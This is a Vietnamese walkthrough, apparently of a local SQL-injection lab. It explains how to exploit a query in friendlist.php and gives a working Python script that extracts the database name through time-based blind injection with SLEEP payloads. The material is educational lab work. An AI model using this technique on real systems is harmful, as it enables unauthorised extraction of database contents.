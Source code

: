 ![images/image.png](images/image%2015.png)

Đối với trang `friendlist.php`:

Ta sẽ tập trung exploit câu query thứ 2 nên payload sẽ không nên có dấu `'` nếu không sẽ trigger lỗi ở câu query thứ 1.

![Dòng 85 - 92 của file `friendlist.php`](images/image%2016.png)

Dòng 85 - 92 của file `friendlist.php`

Script để exploit lấy tên database và tất cả table:

```python
import requests
import string
import time
import sys
url = "http://localhost/sql-injection-lab/1/friendlist.php"
cookies = {"PHPSESSID": "47jhemumu2hib038cmlrnp3gml"}
headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36"
}

def extract_database_name():
    db_name = ""
    print("[+] Extracting Database Name:", end="", flush=True)
    for i in range(1, 10):  # Assuming max length of DB name is 50
        found = False
        for char in string.printable:
            ascii_val = ord(char)
            payload = f"1 AND ASCII(SUBSTRING(DATABASE(),{i},1))={ascii_val} AND SLEEP(30) --"
            data = {"friend_id": "21", "friend_id2": payload, "delete_submit": "Unfriend"}
            start_time = time.time()
            response = requests.post(url, headers=headers, data=data, cookies=cookies)
            elapsed_time = time.time() - start_time
            if elapsed_time > 30:  # If delay detected
                db_name += char
                print(char, end="", flush=True)
                found = True
                break
        if not found:
            print("\n[+] Database Name Extraction Complete!")
```